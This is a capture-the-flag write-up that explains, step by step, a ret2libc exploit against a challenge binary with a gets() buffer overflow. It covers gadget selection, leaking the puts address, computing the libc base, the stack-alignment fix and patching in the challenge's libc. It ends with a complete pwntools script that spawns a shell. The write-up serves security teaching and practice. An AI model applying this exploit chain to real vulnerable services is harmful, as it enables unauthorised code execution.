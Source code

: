# Favourite Shell

## File Analysis

![image](https://github.com/user-attachments/assets/e00de133-9a97-4b16-b9eb-a5f29d53ccfc)

## Steps to Solve
## Step 1

![image](https://github.com/user-attachments/assets/db41d024-0eb7-4df9-b872-690c0b40e6fc)

First of all, we try to run this file and see it only prompt us to input "What's your favourite shell" then whenever we enter anything it will just print out "oh that one? me too!". It seems like nothing special here, so I tried to decompile it using **Ghidra**.

<details>
<summary>Decompile Main Code</summary>

```C
{
  char buffer [32];
  
  setup();
  puts("whats your favourite shell?");
  gets(buffer);
  puts("oh that one? me too!");
  return 0;
}
```

</details>

From Ghidra, that's also nothing much more interesting. There is only a main function in the decompile code. One thing we can notify is that we can perform **Buffer Overflow** for this because **gets** didn't specify how many sise can be input into the buffer. Therefore, we can perform **Buffer Overflow**.

## Step 2

![image](https://github.com/user-attachments/assets/af053688-d14c-4a0e-b87a-76618707e072)

After knowing that we can perform buffer overflow. Then I tried to **ret2system** because that I can't inject shellcode because of **NX enabled** and also no **win function** for me to return to. Therefore, I have to find a **libc leak** now. To do that, I will first find a **pop rdi** gadget using **ROPgadget**. In this case, I'll take the _**0x000000000040118d : pop rdi ; ret**_.

> The reason to have a **pop rdi** is because that the **puts()** function is actually taking a parameter from **rdi**. Therefore, now I'm going to pop the **puts address** into the rdi and call the **puts()** function again. Now it will print out the address of the puts address.

## Step 3

```python
offset = 0x28

payload = b"A" * offset
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym.main)

p.sendline(payload)

p.recvline()
p.recvline()

puts_leak = u64(p.recvline().strip().ljust(8, b"\x00"))

print("PUTS LEAK : ", hex(puts_leak))
```

![image](https://github.com/user-attachments/assets/9d8f5eda-d17a-419f-9c35-7fd3164fdf88)

Then when I have the **pop rdi** gadget, I now **pop the address of 'puts' into 'rdi' then call the puts() function again**. After that I'll call the main function again. Just like this, we can already see the **libc leak** which is the **'puts' address**.

> **"GOT (Global Offset Table)"** is a **place** where will store the function's address after calling the function. So **exe.got['puts']** means, **getting the address** of puts function.
> 
> **"PLT (Procedure Linkage Table)"** is **to call** the function inside the **GOT**. So **exe.plt['puts']** means, **calling the function puts**.
> 
> Therefore, when we have **'puts'** function already inside the **GOT**, then we can use **PLT** to call the **'puts'** function.

## Step 4

So when we already have the **libc leak**, we can already find out the **libc base address**. The reason to do this is because we need to use the **libc symbols** like **system** and **search**. To find the **libc base address**, we can count it by subtracting the offset of puts with the **libc.sym['puts']**.

```python
libc.address = puts_leak - libc.sym['puts']

print("LIBC BASE : ", hex(libc.address))
```

> The **libc.address** is let us to setting up the libc base address. So that we can use all the libc symbols later. One of the most important things that why we need to have the libc base address is because of **"ASLR (Address Space Layout Randomization)"**. When the ASLR is on, the **base address** of key memory areas e.g.(**libc, stack and heap**) are always randomized. Therefore, if we want to use the libc symbols, we have to find the libc base address first when ASLR is on.
>
> To check if ASLR is on or off we can run the following commands:
> ```bash
> sysctl kernel.randomize_va_space
> ```
>
> or
>
> ```bash
> cat /proc/sys/kernel/randomize_va_space
> ```
>
> Output:
>  - 0 means ASLR is off (disabled).
>  - 1 means ASLR is partially on (only for stack, heap, and mmap).
>  - 2 means ASLR is fully on (randomizes stack, heap, mmap, and executable code).
> 

## Step 5

After setting up the libc base address, then I can also find for the **system()** function address and also search for the **/bin/sh\x00** address. Therefore, I can use this to spawn a shell.

```python
system = libc.sym['system']
binsh = next(libc.search(b"/bin/sh\x00"))
```

> next() function is used to retrieve the first occurrence address of /bin/sh\x00. Because it might find many addresses, therefore have to use the next() function

## Step 6

After we having all the addresses, then we can start our second stage exploit by sending the **system('/bin/sh')** to the binary. Finally, we spawn a shell!!

```python
payload = b"A" * offset
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)
```

> The reason to include the **"p64(pop_rdi + 1)"**(which is a **ret** instruction) is because of the **stack alignment**. Each p64() is actually **8 bytes**, then in this case there are 8 * p64(), which will be 8 * 8 = 64 bytes. Then also it matches the stack alignment by 16 bytes, because 64 % 16 = 0.
>
> _GENERATED BY CHATGPT:_ "In many cases, especially on x86_64 (64-bit) systems, the stack must be aligned to a 16-byte boundary before calling a function like system() or other libc functions. This is a requirement of the x86_64 ABI (Application Binary Interface)." 

## Step 7 (Additional Step Required for Remote Server)

So after that I done and spawn a shell in local, and I tried to connect it remotely but it still cannot spawn a shell on it. Then I remembered that I encountered this issues before, which is because of the remote server's libc is different with my local host. Therefore, I need to download the libc file that same with the remote server. Luckily, this challenge has already provided the Dockerfile, therefore I can just copy the Docker Container's libc and copy to my localhost. To do this, I have to first build the docker with the following command.

```bash
sudo docker build -t <tagname> . # Any tagname should be fine
sudo docker run -v "`pwd`:/chal" -it <HASH> bash # Replace the hash with user@hash, can be see from the image provided below. The value after the "Digest:" is the hash.
```

Example:
**PLACEHOLDER**

After that just cd (change directory) into the **/chal** directory, then use command **ldd <binary>** to see which libc is being used.

```bash
ldd <binary>
```

Example:
**PLACEHOLDER**

From here, we can tell that the chal is running with **libc.so.6**. Then we can just copy the libc to our localhost by using the following command:

```bash
cp /lib/x86_64-linux-gnu/<LIBC> . # Use . when you are in the same directory
```

Example:
**PLACEHOLDER**

So now we can see that the libc is already in our localhost's directory, then we have to **patch the binary** using the **new libc** that taken from the docker. We can do this by using the command [pwninit](https://github.com/io12/pwninit). But before that, let use see the default libc and after the new libc using **ldd**.

**_BEFORE_**
**PLACEHOLDER**

**_AFTER (pwninit)_**
**PLACEHOLDER**

## FINALLL !!!

So after everything is done, now we can just run the full exploit script, and we can spawn a shell !!

<details>
  <summary>Exploit Script</summary>

  ```python
from pwn import *

exe = context.binary = ELF('./chal_patched')
libc = ELF('./libc.so.6')

pop_rdi = 0x000000000040118d

p = exe.process()

offset = 0x28

payload = b"A" * offset
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym.main)

p.sendline(payload)

p.recvline()
p.recvline()

puts_leak = u64(p.recvline().strip().ljust(8, b"\x00"))

print("PUTS LEAK : ", hex(puts_leak))

libc.address = puts_leak - libc.sym['puts']

print("LIBC BASE : ", hex(libc.address))

system = libc.sym['system']
binsh = next(libc.search(b"/bin/sh\x00"))

payload = b"A" * offset
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)

p.interactive()
```

</details>

Just like that and we spawn a shell !!

